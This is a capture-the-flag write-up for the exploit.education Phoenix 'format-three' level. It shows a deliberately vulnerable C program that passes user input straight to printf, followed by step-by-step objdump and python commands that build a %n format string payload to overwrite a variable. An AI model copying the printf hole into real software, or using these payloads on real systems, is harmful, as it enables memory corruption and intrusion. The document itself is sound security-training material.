 # Format Three

```c
/*
 * phoenix/format-three, by https://exploit.education
 *
 * Can you change the "changeme" variable to a precise value?
 *
 * How do you fix a cracked pumpkin? With a pumpkin patch.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[4096];
  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);

  if (changeme == 0x64457845) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    printf(
        "Better luck next time - got 0x%08x, wanted 0x64457845!\n", changeme);
  }

  exit(0);
}
```

## Solution

1. Similiar to the last one:
    - `objdump -t /opt/phoenix/amd64/format-three | grep changeme` gives `\x60\x0a\x90` as the address to overwrite, this isn't usable as `\x0a` is `\n`.
    - `objdump -t /opt/phoenix/i486/format-three | grep changeme` gives `\x08\x04\x98\x44`.
2. We need to overwrite changme with a specific value of "0x64457845". We can still do this with the `%n` specifier, but since the buffer isn't large enough for 0x64457845 bytes we must use the width specifier to increase the number of bytes written. 0x64457845 is 1682274373 in decimal
3. `` python -c 'print("\x44\x98\x04\x08 %p %p %p %1682274373s %p %p %p %p %p %p %p %n")' | /opt/phoenix/i486/format-three `` is just 0x74 too large. This is due to the values from the %ps, spaces, and addresses.
4. `` python -c 'print("\x44\x98\x04\x08 %p %p %p %1682274299s %p %p %p %p %p %p %p %n")' | /opt/phoenix/i486/format-three `` Solves the challenge